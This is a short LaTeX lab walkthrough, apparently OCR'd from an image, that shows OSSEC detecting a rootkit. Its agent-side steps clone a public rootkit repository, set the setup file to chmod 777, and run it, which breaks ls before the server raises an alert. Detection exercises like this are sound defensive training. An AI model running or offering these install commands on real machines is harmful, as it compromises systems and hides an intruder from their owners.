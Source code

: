 \documentclass{article}
\begin{document}
\subsection{Rootkit Detection}
\subsubsection{Open Ubuntu Server}
\begin{verbatim}
$ sudo ./bin/agent_control -lc
\end{verbatim}
get agent id from the list
\begin{verbatim}
$ sudo tail -f logs/alerts/alerts.log
\end{verbatim}
Keep the previous command running (don’t Ctrl+C)
\subsubsection{Open Ubuntu Agent}

\begin{verbatim}
$ git clone https://github.com/CCrashBandicot/shv5.git
$ cd shv5
$ ls
$ sudo chmod 777 setup
$ ./setup
\end{verbatim}

Now ls command will not work in agent
\begin{verbatim}
$ ossec_agent@OssecAgent:~/shv5$ ls
-bash: /usr/bin/ls: No such file or directory
$ ossec_agent@OssecAgent:~/shv5$ ls
-bash: /usr/bin/ls: No such file or directory
\end{verbatim}

\subsubsection{Refresh Server}
open a new tab in terminal
\begin{verbatim}
$ sudo ./bin/agent_control -r -u <agent_no>
\end{verbatim}
go back to the unstopped tab of terminal running the `tail` command and see rootkit detected
\begin{figure}[hbt!]
    \centering
    \includegraphics{Screenshot 2023-09-13 201539.png}
\end{figure}
\end{document}
